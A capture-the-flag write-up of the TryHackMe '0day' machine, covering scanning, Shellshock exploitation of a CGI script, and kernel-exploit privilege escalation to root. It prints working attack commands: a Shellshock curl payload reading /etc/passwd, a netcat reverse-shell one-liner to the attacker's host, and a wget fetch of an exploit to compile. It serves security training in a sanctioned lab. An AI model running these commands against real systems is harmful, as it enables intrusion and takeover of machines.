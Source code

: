 # 0day

---

Platform: Tryhackme

Difficulty: Medium

Date: 03/07.2025

Status: Rooted

---

Nmap scan:

```bash
┌──(kali㉿kali)-[~/tryhackme/0day]
└─$ sudo nmap -Pn -O -sC -A -p- --min-rate=3000 10.10.216.81 -oN nmap.full
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-03 09:17 EDT
Nmap scan report for 10.10.216.81
Host is up (0.42s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: 0day
|_http-server-header: Apache/2.4.7 (Ubuntu)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.4
OS details: Linux 4.4
Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- Port 22: Open ssh
- Port 80: http Apache httpd 2.4.7 ((Ubuntu))

### Port 80:

![image](https://github.com/user-attachments/assets/cf7c6939-547b-440c-bec4-16b57581233b)


Just a profile page of ryan motgomery(0day), noting unusual here. Not seeing anything which could be exploitable here. So, next step would be source code review, directory bruteforcing via ffuf and nikto scan for finding underlying technologies.

First of all, if we see source code, there is nothing unusual and no unusual comments developers left here. 

![image 1](https://github.com/user-attachments/assets/c87240e9-a2a3-42fd-8ad9-22072f67bae7)


Let’s bruteforce directories with ffuf:

```bash
┌──(kali㉿kali)-[~/tryhackme/0day]
└─$ ffuf -u http://10.10.216.81/FUZZ -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic
```

![image 2](https://github.com/user-attachments/assets/e2f12273-442a-4784-bb2a-4bbfcc890157)


There are some directories running with the application, we have to check them one by one.

The most interesting directory was /backup , there we can see an id_rsa content file, so tried putting in our system give it 600 permission at tried to connect to user ryan via ssh, but that id_rsa file was encrypted, so have to decrypt it using ssh2john tool, here we got success and found passphrasse for that file. Again tried to connect to ssh but here comes the twist.

![image 3](https://github.com/user-attachments/assets/f486c267-f783-4d6f-8704-7ff75f1be0e5)

![image 4](https://github.com/user-attachments/assets/103fbc65-6621-4dce-9051-32268c88e23f)

![image 5](https://github.com/user-attachments/assets/04ae4ced-eb57-4c04-899a-90bae8773ad7)

in Linux typically occurs when you're trying to connect to an **SSH server** using a **public key**, but your **SSH client and server cannot agree on a matching key algorithm or signature type** to use for authentication.

That means, it was just a rabbit hole, we have to look for something else to gain initial access.

Nikto scan:

![image 6](https://github.com/user-attachments/assets/22b76c1b-8c08-43a7-ac87-7d40db96008c)

This indicates that there’s a file called `test.cgi` in the `/cgi-bin/` directory which might be vulnerable to [ShellShock](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271) — a devastating vulnerability which affects older versions of Bash. CGI files are used by the webserver to execute commands in a native scripting language — in this case, that means that our `test.cgi` file will be running Bash commands. With vulnerable versions of bash, injecting a function definition (`(){ :;};`) into the input of such a script would force the script to execute any subsequent commands. Like so:

```bash
curl -A "() { :;}; echo Content-Type: text/html; echo; /bin/cat /etc/passwd;" http://10.10.216.81/cgi-bin/test.cgi
```
![image 7](https://github.com/user-attachments/assets/71970607-e335-41db-9eb1-9785b00f1c72)

Successfully exploited shellshock vulnerability.

You can read more about this vulnerability here:

[https://github.com/opsxcq/exploit-CVE-2014-6271](https://github.com/opsxcq/exploit-CVE-2014-6271)

---

### Initial access

We can now use that vulnerability to gain reverse shell. let’s try:

```bash
┌──(kali㉿kali)-[~/tryhackme/0day]
└─$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.87.131 4445 >/tmp/f'" \                          
http://10.10.216.81/cgi-bin/test.cgi

┌──(kali㉿kali)-[~/tryhackme/0day]
└─$ rlwrap -f . -r nc -nvlp 4445
listening on [any] 4445 ...
connect to [10.17.87.131] from (UNKNOWN) [10.10.216.81] 58565
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
....
www-data@ubuntu:/home/ryan$ ls -la
ls -la
total 28
drwxr-xr-x 3 ryan ryan 4096 Sep  2  2020 .
drwxr-xr-x 3 root root 4096 Sep  2  2020 ..
lrwxrwxrwx 1 ryan ryan    9 Sep  2  2020 .bash_history -> /dev/null
-rw-r--r-- 1 ryan ryan  220 Sep  2  2020 .bash_logout
-rw-r--r-- 1 ryan ryan 3637 Sep  2  2020 .bashrc
drwx------ 2 ryan ryan 4096 Sep  2  2020 .cache
-rw-r--r-- 1 ryan ryan  675 Sep  2  2020 .profile
-rw-rw-r-- 1 ryan ryan   22 Sep  2  2020 user.txt
www-data@ubuntu:/home/ryan$ cat user.txt
cat user.txt
THM{REDACTED}
```

---

### Privilege Escalation

If we look at hint on this room - “This is a very old operating system you've got here, isn't it?..”

Looks like intended way to gain higher privilege in this machine is kernel exploit, so let’s check our OS and kernel version, if gcc is present in our target machine and will try to find exploit for that.

```bash
www-data@ubuntu:/home/ryan$ uname -a
uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
www-data@ubuntu:/home/ryan$ gcc
gcc
gcc: fatal error: no input files
compilation terminated.

www-data@ubuntu:/home/ryan$ cat /etc/*-release
cat /etc/*-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=14.04
DISTRIB_CODENAME=trusty
DISTRIB_DESCRIPTION="Ubuntu 14.04.1 LTS"
NAME="Ubuntu"
VERSION="14.04.1 LTS, Trusty Tahr"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 14.04.1 LTS"
VERSION_ID="14.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
www-data@ubuntu:/home/ryan$ gcc --version
gcc --version
gcc (Ubuntu 4.8.4-2ubuntu1~14.04.4) 4.8.4
Copyright (C) 2013 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
```

Let’s search for exploit available on searchsploit for our target OS and kernel version:

![image 8](https://github.com/user-attachments/assets/6d891f4b-3b6a-4769-8040-73047308e40a)

First one, looks perfect for our requirements, let’s grab that exploit to our current working directory.

![image 9](https://github.com/user-attachments/assets/622f7a65-59dd-413a-b59d-09477ed36825)

Transfer it to target machine:

```bash
┌──(kali㉿kali)-[~/tryhackme/0day]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

www-data@ubuntu:/tmp$ wget http://10.17.87.131/37292.c
wget http://10.17.87.131/37292.c
--2025-07-03 06:52:55--  http://10.17.87.131/37292.c
Connecting to 10.17.87.131:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4968 (4.9K) [text/x-csrc]
Saving to: '37292.c'

100%[======================================>] 4,968       --.-K/s   in 0.002s  

2025-07-03 06:52:55 (3.07 MB/s) - '37292.c' saved [4968/4968]
```

Now compile it.

```bash
www-data@ubuntu:/tmp$ gcc 37292.c -o exploit
gcc 37292.c -o exploit
gcc: error trying to exec 'cc1': execvp: No such file or directory
```

Error in compilation, let’s look what it it for?

Essentially, the PATHs used in this version of Ubuntu are more than a little wonky, resulting in `gcc` being unable to find `cc1` — the program responsible for converting C code into assembler. To fix this we need to get our PATH variable inline with a standard Ubuntu PATH, which we do with the following command:

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Let’s try to compile and run that exploit again.

![image 10](https://github.com/user-attachments/assets/4a4f8b2a-40d7-4c1b-a792-89f02dbeafb2)

Now it worked! And we were root now!

Last task:

```bash
# cat root.txt
cat root.txt
THM{REDACTED}
```

That’s it for this machine.✅
